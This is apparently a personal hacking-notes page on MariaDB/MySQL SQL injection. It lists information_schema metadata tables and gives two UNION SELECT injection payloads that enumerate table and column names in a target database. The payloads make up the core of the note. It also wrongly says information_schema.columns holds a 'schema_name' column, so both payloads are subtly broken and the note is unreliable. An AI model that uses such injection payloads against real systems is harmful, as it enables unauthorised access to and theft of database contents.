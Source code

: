 # mariadb mysql SQLi information tables
`information_schema` is name of metadata database
`information_schema.schemata` is names of databases in `schema_name` column
`information_schema.columns` is names of tables and columns 
  - column `column_name` has names of columns
  - column `table_name`
  - column `schema_name` is database name
Example union injection
`... union select 1,2,group_concat(concat(table_name, ':', column_name)) from information_schema.columns where schema_name='interesting_db'`
`... union select 1,2,group_concat(table_name, ':', column_name) from information_schema.columns where schema_name='interesting_db'`

` zet/20221003150984/README.md `

# Related

- [20221003150987](/zet/20221003150987/README.md) mariadb mysql SQLi
- ~/kb/hacking/methodology/sqli-manual-mysql-payloads.md

Tags:

    #hacking #sqli 
